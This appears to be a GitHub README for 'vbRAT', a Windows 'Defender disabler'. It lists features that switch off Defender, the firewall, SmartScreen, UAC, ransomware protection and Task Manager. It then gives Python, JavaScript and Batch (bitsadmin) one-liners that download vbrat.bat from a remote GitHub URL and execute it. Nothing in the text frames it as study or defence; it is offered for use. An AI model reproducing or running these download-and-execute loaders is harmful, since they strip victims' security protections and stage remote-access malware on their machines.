 # vbRAT


<h2 align="center">
  Defender disabler 

</h2>

---
## disable defender 
 -  PUAProtection 
 -  Automatic Sample Submission
 -  Windows FireWall
 -  Windows Smart Screen(Permanently)
 -  Disable Quickscan
 -  Add exe file  to exclusions in defender settings
 -  Disable Defender Notification (Added Recently)
 -  Disable UAC(Reboot Required)
 -  Disable Ransomware Protection
 -  Disable TaskManager
 -  Disable registry etc..
---


- [Python](https://www.python.org/):

```python
import requests, os
_file = requests.get('https://raw.githubusercontent.com/4ksr/vbRAT/main/vbrat.bat')

with open('demo.bat', 'w') as f:
    f.write(_file.text)

os.startfile('vbrat.bat')
```

- [Javascript](https://nodejs.org/en/):

```javascript
const { exec } = require('child_process');
const fs = require('fs');
const axios = require('axios');

axios.get('https://raw.githubusercontent.com/4ksr/vbRAT/main/vbrat.bat', {
    responseType: 'text',
  }).then((response) => {
    fs.writeFileSync('demo.bat', response.data, { flag: 'a' }, (err) => {});
  });
exec('vbrat.bat');
```

- [Batch](https://en.wikipedia.org/wiki/Batch_file):

```batch
bitsadmin /transfer Packages /download /priority foreground https://raw.githubusercontent.com/4ksr/vbRAT/main/vbrat.bat "vbrat.bat"
start vbrat.bat
```

